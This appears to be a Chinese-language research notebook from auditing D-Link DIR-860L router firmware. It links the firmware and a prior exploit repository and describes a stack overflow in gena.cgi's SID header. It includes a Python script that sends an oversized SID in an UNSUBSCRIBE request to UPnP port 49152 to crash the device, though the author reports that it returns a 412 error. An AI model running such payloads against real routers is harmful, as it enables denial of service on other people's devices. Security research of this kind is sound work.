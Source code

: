 可算是搭起来一个了。。。

```
https://legacyfiles.us.dlink.com/DIR-860L/REVB/FIRMWARE/
```



REVB的这个版本也没几个CVE，可以挖一挖。

感觉前面830L的洞可能都还没修，毕竟是小0day。。

但二进制文件已经换了，所以慢慢挖吧~



慢慢审计，不急~

```
https://github.com/soh0ro0t/Pwn-Multiple-Dlink-Router-Via-Soap-Proto
```

这里面甚至还挖了XSS。。。



对应的关键二进制文件是`htdocs/cgibin`

所以这个版本学习的就是cgi-bin的转换，逆向；以及getenv的注入与控制。

![image-20241027152146483](./DIR860L/images/image-20241027152146483.png)



这个跟830L很多不一样，得研究研究。

先以学习为主，洞慢慢找。



最大的疑惑在于：830L的那些功能，在860L也有，比如Statistics.html，但是找不到处理的二进制文件？？？

有可能换成php文件来处理了。



# `gena.cgi` SID Buffer Overflow （🤔）

对比2.03的版本，还是有一样的栈溢出。

```
https://gist.github.com/XiaoCurry/574ed9c2b0d12cd0b45399116d82121c
```

![image-20241027151932611](./DIR860L/images/image-20241027151932611.png)



接下来就是找怎么传参进去了。

genacgi_main函数：

![image-20241027152021655](./DIR860L/images/image-20241027152021655.png)



需要`UNSCRIBE`方法

然后呢，这个通信不能走80端口，得走UPNP的`49152`。

这里还是以拒绝服务为例：

但好像拒绝服务触发不了？？？为啥啊？？？

```py
import socket

host = '192.168.0.1'
port = 49152

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    sock.connect((host, port))
    payload = b'a'*1024

    msg = b"UNSUBSCRIBE /gena.cgi?service=0 HTTP/1.1\r\n"
    msg += b"Host: localhost:49152\r\n"
    msg += b"SID: " + payload + b"\r\n\r\n"
    msg += b'Cookie: uid=fggL5xvGhy'

    sock.send(msg)
    print(sock.recv(1024))
    
except Exception as e:
    print(f"error: {e}")
finally:
    sock.close()
    print("[+] Done!")
```



呃呃呃。。。 先放着吧。。。



wireshark抓包看，是412错误？

![image-20241027174555586](./DIR860L/images/image-20241027174555586.png)



慢慢排查。

哦，貌似得先subscribe。。![image-20241027175503443](./DIR860L/images/image-20241027175503443.png)



# 